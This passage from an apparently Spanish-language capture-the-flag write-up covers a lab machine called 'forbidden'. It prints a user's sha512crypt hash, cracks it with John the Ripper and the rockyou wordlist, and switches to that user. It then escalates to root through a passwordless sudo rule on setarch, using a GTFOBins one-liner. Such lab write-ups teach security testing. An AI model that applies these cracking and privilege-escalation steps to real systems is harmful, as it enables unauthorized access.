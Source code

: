 ~~~bash
peter:$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81:18544:0:99999:7:::
~~~


### Fuerza bruta a hash

De esta forma, me guardo este contenido en un fichero llamado hash en mi máquina y vamos a tratar de usar fuerza bruta:

~~~bash
❯ john -w=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bxxxxr           (peter)     
~~~

Pivotamos a *peter*

~~~bash
marta@forbidden:~$ su - peter
Password: 
peter@forbidden:~$ 
~~~

Volvemos a revisar los permisos sudo con este user:

~~~bash
peter@forbidden:~$ sudo -l
Matching Defaults entries for peter on forbidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/setarch
~~~

Bien, ahora podemos utilizar la ayuda de <https://gtfobins.github.io/gtfobins/setarch/#sudo>

~~~bash
peter@forbidden:~$ sudo setarch $(arch) /bin/sh
-bash: /usr/bin/arch: Permission denied
setarch: /bin/sh: Unrecognized architecture
~~~

Nos ha capado el comando arch, no obstante, eso tiene fácil solución:

~~~bash
peter@forbidden:~$ uname -r
4.19.0-9-amd64
peter@forbidden:~$ sudo setarch x86_64 /bin/sh
# cd /root
# ls
root.txt
# cat root.txt
~~~

Máquina finalizada, agradecer a sml por la misma.